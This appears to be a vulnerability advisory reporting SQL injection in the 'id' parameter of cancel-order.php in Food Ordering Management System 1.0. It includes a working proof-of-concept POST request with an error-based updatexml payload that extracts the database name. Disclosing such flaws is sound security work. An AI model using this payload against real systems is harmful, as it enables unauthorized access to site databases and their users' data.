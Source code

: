 ## Food Ordering Management System has a front-end SQL injection vulnerability

## Affected version: 
Food Ordering Management System - 1.0

## Software:
https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

## Vulnerability File:
/foms/routers/cancel-order.php

## Author
TanLong

## Description:
Food Ordering Management System 1.0 is vulnerable to an unrestricted SQL injection attack in /foms/routers/cancel-order.php with the attack parameter id. An attacker can exploit this vulnerability to directly obtain sensitive server information. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /foms/routers/cancel-order.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: http://localhost
Connection: close
Referer: http://localhost/foms/admin-page.php
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

status=1233213&id=123%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q
```

Get database name 

![CleanShot 2024-09-05 at 14 38 03@2x](https://github.com/user-attachments/assets/7e87c3de-ebab-495b-9c17-d7898804fca5)



